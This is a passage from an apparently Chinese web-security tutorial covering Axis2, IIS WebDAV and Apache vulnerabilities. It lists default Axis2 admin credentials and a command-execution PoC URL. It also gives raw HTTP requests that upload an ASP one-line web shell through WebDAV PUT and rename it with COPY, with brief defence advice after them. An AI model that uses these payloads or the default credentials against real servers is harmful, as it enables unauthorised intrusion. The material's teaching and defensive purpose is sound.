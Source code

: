默认账号密码：admin与axis2

执行系统命令poc

```
http://localhost/services/Axis2Shell/execCmd?cmd=whoami
```

# IIS漏洞与防护

IIS是微软的一款web服务器，其配置不当容易产生webdav漏洞。

webdav本身是iis的一项扩展功能，开启后可以使用除了get、post以外的一些请求类型，比如put等。

但如果配置不当，就会导致文件上传漏洞。

除了webdav漏洞，近期还爆出了一个远程命令执行漏洞，具体移步：IIS6.0远程命令执行漏洞(CVE-2017-7269)

## IIS Webdav漏洞详情

当测试一个站点是否存在webdav漏洞时，可以先构造一个OPTIONS请求，若返回200，则查看返回头的Allow参数中包含哪些方法（可以请求）。

```
OPTIONS  / HTTP/1.1
Host:thief.one
```

如果存在PUT方法，则可以尝试写入一个txt文件。

```
UT /shell.txt HTTP/1.1
HOST:thief.one
Content-length:30
<%eval request("nmask")%>
```

若返回200则说明上传成功，此时可以手动访问此文件，确认是否存在。

当然也有可能返回403，这表示此目录没有上传的权限，可以尝试上传到其他目录。

通过MOVE或COPY方法改文件后缀名。

```
COPY /shell.txt HTTP/1.1
HOST:thief.one
Destination:http://thief.one/shell.asp
```

## IIS漏洞防护

- 关闭webdav功能

# Apache漏洞与防护

Apache本身也存在一些漏洞，比如slowhttp漏洞，当然官方认为其是apache的特性而不算是一种漏洞，然而事实证明它的危害真的很大。

除了slowhttp漏洞以外，其第三方moudle存在很多反序列化或者远程命令执行的漏洞。
